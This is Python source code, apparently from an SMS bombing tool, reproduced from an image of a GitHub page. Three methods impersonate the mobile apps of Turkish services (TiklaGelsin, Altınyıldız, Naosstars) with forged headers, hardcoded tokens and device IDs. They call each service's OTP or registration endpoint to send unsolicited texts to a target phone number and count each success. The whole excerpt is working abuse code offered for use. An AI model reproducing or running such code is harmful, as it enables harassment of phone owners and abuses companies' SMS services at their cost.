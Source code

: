 
    #tiklagelsin.com
    def TiklaGelsin(self):
        try:
            url = "https://svc.apps.tiklagelsin.com:443/user/graphql"
            headers = {"Content-Type": "application/json", "X-Merchant-Type": "0", "Accept": "*/*", "Appversion": "2.4.1", "Accept-Language": "en-US,en;q=0.9", "Accept-Encoding": "gzip, deflate", "X-No-Auth": "true", "User-Agent": "TiklaGelsin/809 CFNetwork/1335.0.3.2 Darwin/21.6.0", "X-Device-Type": "2"}
            json={"operationName": "GENERATE_OTP", "query": "mutation GENERATE_OTP($phone: String, $challenge: String, $deviceUniqueId: String) {\n  generateOtp(phone: $phone, challenge: $challenge, deviceUniqueId: $deviceUniqueId)\n}\n", "variables": {"challenge": "3d6f9ff9-86ce-4bf3-8ba9-4a85ca975e68", "deviceUniqueId": "720932D5-47BD-46CD-A4B8-086EC49F81AB", "phone": f"+90{self.phone}"}}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.json()["data"]["generateOtp"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> svc.apps.tiklagelsin.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> svc.apps.tiklagelsin.com")
    

    #ayyildiz.com.tr
    def Ayyildiz(self):
        try:
            url = f"https://api.altinyildizclassics.com:443/mobileapi2/autapi/CreateSmsOtpForRegister?gsm={self.phone}"
            headers = {"Accept": "*/*", "Token": "MXZ5NTJ82WXBUJB7KBP10AGR3AF6S4GB95VZDU4G44JFEIN3WISAC2KLRIBNONQ7QVCZXM3ZHI661AMVXLKJLF9HUKI5SQ2ROMZS", "Devicetype": "mobileapp", "Accept-Encoding": "gzip, deflate", "User-Agent": "altinyildiz/2.7 (com.brmagazacilik.altinyildiz; build:2; iOS 15.7.7) Alamofire/2.7", "Accept-Language": "en-TR;q=1.0, tr-TR;q=0.9"}
            r = requests.post(url, headers=headers, timeout=6)
            if r.json()["Success"] == True:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.altinyildizclassics.com")
                self.adet += 1
            else:
                raise      
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.altinyildizclassics.com")


    #naosstars.com
    def Naosstars(self):
        try:
            url = "https://api.naosstars.com:443/api/smsSend/9c9fa861-cc5d-43b0-b4ea-1b541be15350"
            headers = {"Uniqid": "9c9fa861-cc5d-43c0-b4ea-1b541be15351", "User-Agent": "naosstars/1.0030 CFNetwork/1335.0.3.2 Darwin/21.6.0", "Access-Control-Allow-Origin": "*", "Locale": "en-TR", "Version": "1.0030", "Os": "ios", "Apiurl": "https://api.naosstars.com/api/", "Device-Id": "D41CE5F3-53BB-42CF-8611-B4FE7529C9BC", "Platform": "ios", "Accept-Language": "en-US,en;q=0.9", "Timezone": "Europe/Istanbul", "Globaluuidv4": "d57bd5d2-cf1e-420c-b43d-61117cf9b517", "Timezoneoffset": "-180", "Accept": "application/json", "Content-Type": "application/json; charset=utf-8", "Accept-Encoding": "gzip, deflate", "Apitype": "mobile_app"}
            json={"telephone": f"+90{self.phone}", "type": "register"}
            r = requests.post(url, headers=headers, json=json, timeout=6)
            if r.status_code == 200:
                print(f"{Fore.LIGHTGREEN_EX}[+] {Style.RESET_ALL}Başarılı! {self.phone} --> api.naosstars.com")
                self.adet += 1
            else:
                raise
        except:
            print(f"{Fore.LIGHTRED_EX}[-] {Style.RESET_ALL}Başarısız! {self.phone} --> api.naosstars.com")
